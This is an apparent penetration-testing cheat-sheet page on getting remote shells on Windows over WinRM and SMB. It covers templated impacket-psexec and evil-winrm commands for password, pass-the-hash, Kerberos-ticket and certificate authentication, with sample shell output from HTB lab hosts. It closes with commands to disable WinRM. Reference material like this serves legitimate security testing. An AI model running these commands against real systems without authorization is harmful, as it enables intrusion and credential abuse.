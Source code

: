 ```yaml
---
title: "Winrm"
date: 2024-7-27
tags: ["Kerberos", "Pass-The-Hash", "RCE", "Evil-Winrm", "Windows", "Pass-The-Ticket", "Pass-The-Cert", "Winrm", "Psexec"]
---
```


### Psexec

{{< tab set1 tab1 >}}Password{{< /tab >}}
{{< tab set1 tab2 >}}Hash{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>'
```

```console
# Local auth
impacket-psexec '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Domain auth
impacket-psexec '<DOMAIN>/<USER>@<TARGET>' -hashes :<HASH>
```

```console
# Local auth
impacket-psexec '<USER>@<TARGET>' -hashes :<HASH>
```

{{< /tabcontent >}}

### Evil-Winrm

{{< tab set2 tab1 >}}Password{{< /tab >}}
{{< tab set2 tab2 >}}Hash{{< /tab >}}
{{< tab set2 tab3 >}}Kerberos{{< /tab >}}
{{< tab set2 tab4 >}}crt & key{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
evil-winrm -i <TARGET> -u '<USER>' -p '<PASSWORD>'
```

```console {class=sample-code}
$ evil-winrm -i 127.0.0.1 -u dr.zaiuss -p 'qwe123QWE!@#'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Dr.Zaiuss\Documents>
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
evil-winrm -i <TARGET> -u '<USER>' -H <HASH> 
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
# Step 1: Edit '/etc/krb5.conf' (All in uppercase)

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console {class="sample-code"}
[libdefaults]
    default_realm = WINDCORP.HTB

[realms]
    WINDCORP.HTB = {
        kdc = HOPE.WINDCORP.HTB:88
        admin_server = HOPE.WINDCORP.HTB
        default_domain = WINDCORP.HTB
    }
    
[domain_realm]
    .domain.internal = WINDCORP.HTB
    domain.internal = WINDCORP.HTB
```

```console
# Step 2: Request a TGT
sudo ntpdate -s <DC_IP> && impacket-getTGT '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

```console
# Step 3: export .ccache
export KRB5CCNAME=<CCACHE>
```

```console {class="sample-code"}
$ export KRB5CCNAME=winrm_user.ccache
```

```console
# Step 4: Connect
sudo ntpdate -s <DC_IP> && evil-winrm -i <TARGET> -r <DOMAIN>
```

```console {class="sample-code"}
$ evil-winrm -i dc.absolute.htb -r absolute.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_user\Documents> 
```

{{< /tabcontent >}}
{{< tabcontent set2 tab4 >}}

```console
evil-winrm -i <TARGET> -S -k auth.key -c auth.crt
```

{{< /tabcontent >}}

### Disable Winrm

```console
Disable-PSRemoting -Force
```

```console
Stop-Service WinRM -PassThru
```

```console
Set-Service WinRM -StartupType Disabled -PassThru
```